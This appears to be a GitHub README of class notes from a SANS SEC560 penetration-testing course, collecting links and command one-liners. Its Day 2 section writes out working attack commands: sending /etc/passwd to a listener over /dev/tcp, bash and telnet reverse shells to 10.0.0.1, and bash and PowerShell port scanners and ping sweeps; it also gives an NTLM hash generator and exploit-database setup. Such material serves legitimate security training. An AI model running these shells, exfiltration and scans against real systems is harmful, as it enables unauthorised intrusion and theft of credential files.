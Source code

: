 # Resources referenced during SEC560 classes


## Day 2

### Neat things you can do with tcpdump

https://www.middlewareinventory.com/blog/tcpdump-capture-http-get-post-requests-apache-weblogic-websphere/


### Netcat without netcat

Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

### Some fun with cowsay and lolcat (thanks to Jeff McJunkin):
while true; clear; do echo "I'm a cow" | cowsay -f $(ls /usr/share/cowsay/cows/ | sort -R | head -n1) "I'm a cow" | lolcat -a; sleep 5; clear; done

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done


#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445



#### Powershell
Ping sweep:

    PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
    1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

Port scan:

    21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null


## Day 5


Generate NTLM hash if you know the password:

    python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'


## After class is over

Build your own SEC560 lab environment:

10.10.10.5, 10.10.10.10, and 10.10.10.20 (the DC requires an additional step to promote it to a DC):
* https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/


## Install searchsploit on Slingshot
    sudo git clone https://github.com/offensive-security/exploitdb.git /opt/exploitdb
    sed 's|path_array+=(.*)|path_array+=("/opt/exploitdb")|g' /opt/exploitdb/.searchsploit_rc > ~/.searchsploit_rc
    sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit


## Credits
* Ed Skoudis
* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* egre55 and mrh4sh from hackthebox.eu
* Bryce from Australia
* Jeff McJunkin's great 560 class notes https://bit.ly/560notes
